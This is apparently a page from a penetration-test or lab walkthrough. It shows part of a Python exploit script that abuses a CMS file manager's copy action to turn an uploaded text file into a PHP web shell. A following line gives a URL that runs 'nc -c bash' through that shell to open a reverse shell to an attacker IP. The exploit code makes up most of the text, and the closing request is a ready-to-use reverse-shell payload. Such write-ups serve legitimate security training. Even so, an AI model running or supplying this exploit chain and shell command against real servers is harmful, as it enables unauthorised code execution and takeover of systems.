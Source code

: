 ```python
        return True
    print "[-] An error occurred while uploading {}".format(txt_filename)
    return None

def copy_to_php(cookies, csrf_token):
    mact = "FileManager,m1_,fileaction,0"
    page = "/moduleinterface.php"
    url = base_url + page
    b64 = base64.b64encode(txt_filename)
    serialized = 'a:1:{{i:0;s:{}:"{}";}}'.format(len(b64), b64)
    data = {
        "mact": mact,
        csrf_param: csrf_token,
        "m1_fileactioncopy": "",
        "m1_path": upload_dir,
        "m1_selall": serialized,
        "m1_destdir": "/",
        "m1_destname": php_filename,
        "m1_submit": "Copy"
    }
    print "[*] Attempting to copy {} to {}...".format(txt_filename, php_filename)
    response = requests.post(url, data=data, cookies=cookies, allow_redirects=False, verify=False)
    status_code = response.status_code
    if status_code == 302:
        if response.headers['Location'].endswith('copysuccess'):
            print "[+] File copied successfully"
            return True
    print "[-] An error occurred while copying, maybe {} already exists".format(php_filename)
    return None    

def quit():
    print "[-] Exploit failed"
    exit()

def run():
    cookies,csrf_token = authenticate()
    if not cookies:
        quit()
    if not upload_txt(cookies, csrf_token):
        quit()
    if not copy_to_php(cookies, csrf_token):
        quit()
    print "[+] Exploit succeeded, shell can be found at: {}".format(upload_url + '/' + php_filename)

run()
            
```

After running this exploit we should have created the /uploads/command.php endpoint which allows us to execute code on the server. We can use the following request to gain a reverse shell:
`https://192.168.197.44/uploads/command.php?cmd=nc%20-c%20bash%20192.168.119.197%209000`
